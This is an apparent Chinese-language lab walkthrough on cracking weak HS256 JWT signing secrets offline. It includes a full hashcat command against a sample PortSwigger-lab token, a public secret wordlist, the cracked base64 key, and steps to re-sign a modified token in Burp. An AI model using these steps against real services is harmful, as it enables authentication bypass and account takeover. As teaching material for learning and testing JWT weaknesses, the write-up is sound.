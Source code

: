 # 离线爆破 JWT

之前说过，jwt 的签名有两种：

- 对称签名：如 HS256（HMAC-SHA256）。
- 非对称签名：一般采用 RSA 或 ECDSA 算法。

以下是服务器校验方式：

- 对称签名：依赖于服务器存储的相关密钥。
- 非对称签名：私钥签名，公钥认证。

如果要离线爆破的话：

- 对称签名：以字典数据作为密钥，进行哈希运算，并于 jws 对比。
- 非对称签名：攻击者需要爆破私钥，几乎不可能。

常见的 jwt 对称密钥：[wallarm/jwt-secrets](https://github.com/wallarm/jwt-secrets/)，爆破时以它作为字典。

### 离线爆破原理

使用字典中的密钥，对 jwt 里的 payload 进行签名，并对比签名是否相同。

例如如下 jwt：

```
# jwt 完整内容
eyJraWQiOiIxYTNmNjUwNC0yYTZmLTRjOTktYjk5OS1mNTYzYzJlNWRlZWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NjcwMTU5OSwic3ViIjoid2llbmVyIn0.EuFlDsGWnjUPndP617c1v3MUFH-8bSwycwlOXFZRVDM
```

```
# hashcat 爆破命令格式
hashcat -a 0 -m 16500 <jwt> <wordlist>

# 完整命令。
hashcat -a 0 -m 16500 eyJraWQiOiIxYTNmNjUwNC0yYTZmLTRjOTktYjk5OS1mNTYzYzJlNWRlZWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NjcwMTU5OSwic3ViIjoid2llbmVyIn0.EuFlDsGWnjUPndP617c1v3MUFH-8bSwycwlOXFZRVDM jwt.secrets.list
```

### 爆破

Burp 商店里的工具进行爆破：

![image-20250508180738284](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/JWT%20%E6%BC%8F%E6%B4%9E/images/image-20250508180738284.png)

```
c2VjcmV0MQ==
```

新建一个 jwt 密钥，然后填充密钥的 k 属性。（后续的话，要是用这个密钥对 jwt 签名）

![image-20250508180829029](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/JWT%20%E6%BC%8F%E6%B4%9E/images/image-20250508180829029.png)

对 jwt 进行签名，使用刚才新建的密钥。

![image-20250508180923001](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/JWT%20%E6%BC%8F%E6%B4%9E/images/image-20250508180923001.png)

签名后 jwt 就可以随意修改了。

![image-20250508180935820](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/JWT%20%E6%BC%8F%E6%B4%9E/images/image-20250508180935820.png)